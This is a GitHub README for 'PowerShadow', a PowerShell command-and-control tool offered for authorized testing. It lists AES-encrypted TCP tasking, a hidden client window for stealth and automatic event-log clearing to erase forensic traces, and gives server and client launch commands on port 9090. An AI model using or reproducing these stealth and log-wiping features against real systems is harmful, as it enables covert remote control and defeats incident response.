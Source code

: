 # PowerShadow

PowerShadow is an advanced, encrypted TCP Command & Control (C2) framework written in PowerShell. It is designed for authorized security testing and educational purposes. PowerShadow features secure key derivation using PBKDF2, a hidden client window, and automated event log clearance on disconnect. The default TCP port is now **9090**.

> **WARNING:**  
> This tool is intended for **authorized and ethical** security testing only. Misuse of this tool may be illegal and unethical. Always obtain explicit permission before testing any system.

---

## Features

- **Encrypted Communication:**  
  Uses AES‑256 encryption in CBC mode with PKCS7 padding to secure both commands and output.

- **Secure Key Derivation:**  
  Derives the encryption key and IV from a user‑supplied passphrase (entered securely) and a shared salt using PBKDF2—avoiding hard‑coded keys.

- **Length‑Prefixed TCP Protocol:**  
  Implements a simple length‑prefixed protocol to reliably transmit encrypted messages over TCP.

- **Hidden Client Window:**  
  On Windows, the client’s PowerShell window is hidden for improved stealth.

- **Event Log Clearance:**  
  When the connection ends, the client automatically clears selected Windows and PowerShell event logs to reduce forensic traces.

- **Customizable Default Port:**  
  The default TCP port is **9090**. This can be modified via command‑line parameters.

---

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/yourusername/powershadow.git
   cd powershadow

## Execution
- **Server:**
```powershell
sudo pwsh ./powershadow.ps1 -Mode Server -Port 9090
```
- **Client:**
```powershell
.\powershadow.ps1 -Mode Client -ServerIP 192.168.137.134 -Port 9090
```
